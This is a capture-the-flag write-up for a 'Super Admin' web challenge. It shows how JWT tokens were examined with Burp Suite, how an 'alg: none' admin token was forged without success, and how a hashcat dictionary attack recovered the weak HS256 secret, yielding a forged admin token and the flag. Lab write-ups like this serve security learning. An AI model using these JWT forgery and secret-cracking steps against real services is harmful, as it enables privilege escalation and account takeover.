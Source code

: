 # Super Admin

The challenge provides the following url: https://bluehens-web-cookies.chals.io/

![home](super_admin_1.png)

After a little of anaylisis on requests using Burpsuite, i noticed the following:

1. the **"User"** button triggers a request for a new JWT token containing the following attributes:

    ```json
    {
    "alg": "HS256",
    "typ": "JWT"
    },
    {
    "role": "user",
    "iat": 1698755867
    }
    ```

2. the **"Go To Profile**" button is showing the personal page of the user according to its role, which is retrieved from the jwt token itself

I firs tried to forge a JWT token in the following way:

```json
{
"alg": "none",
"typ": "JWT"
},
{
"role": "admin",
"iat": 1698755867
}
```
    
     eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE2OTg3NTU4Njd9.

but it didn't work; it was clear at this point that the token must be correctly signed in order to be accepted.

I used Hashcat to perform a dictionary attack on the server JWT token and try recover the password used to perform the signature:

    hashcat -a 0 -m 16500 "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTY5ODc1NTg2N30.5UFbyVeIZKq6aSffUWMZNmehBCLJm6HlesdJ1HuJcpk" rockyou.txt

and it worked: 

    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTY5ODUzMDc0NX0.yJpwNhW6KG2ATDFg5Utkcv2wDDJ_cRyWXf25uCaFufo:password1

At this point i was able to forge a valid "admin" JWT and obtain the flag:

    HTMLUDCTF{k33p_17_51mp13_57up1d_15_4_l1e}

